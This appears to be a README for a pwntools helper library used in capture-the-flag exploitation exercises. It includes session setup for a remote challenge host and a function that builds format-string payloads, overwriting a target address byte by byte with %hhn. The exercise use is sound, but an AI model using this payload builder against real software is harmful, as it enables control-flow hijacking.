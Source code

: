 ```python
from pwn import *

global p
global elf

def start(prog, args, port=None, gdb_cmd=None):
    prog = './' + prog

    context.arch = 'i386'
    context.terminal = ['urxvtc', '-e', 'sh', '-c']

    if args.REMOTE:
        p = remote('plsdonthaq.me', port)
        elf = ELF(prog)

    elif args.GDB:
        p = gdb.debug(prog, gdb_cmd) 
        elf = ELF(prog)

    else:
        p = process(prog)
        elf = p.elf

    return p, elf

def grab(p, start, end):
    p.recvuntil(start)
    return p.recvuntil(end, drop=True)

def pack(msg):
    print(bytes(msg, 'utf-8'))
    return bytes(msg, 'utf-8')

def fmtstr_build(win, target, offset, padding):
    payload = b"A" * padding
    payload += p32(target + 0) + p32(target + 1) + p32(target + 2) + p32(target + 3)
    payload += f"%{240 - padding}c".encode()

    for i in range(4):
        byte = win & 0xff
        win >>= 8
        if (byte == 0):
            payload += f"%{offset + i}$hhn".encode()
        else:
            payload += f"%{byte}c%{offset + i}$hhn%{256 - byte}c".encode()

    return payload
```

Then add the folder the lib is stored into your python path:
```bash
export PYTHONPATH="$PYTHONPATH:/folder/location/"
```
You can either run this every time you open a new terminal, or add it to your ~/.bashrc or ~/.zshrc and it will auto-run it everytime.

Finally, you can include this library into your programs with
```python
from lib import *
```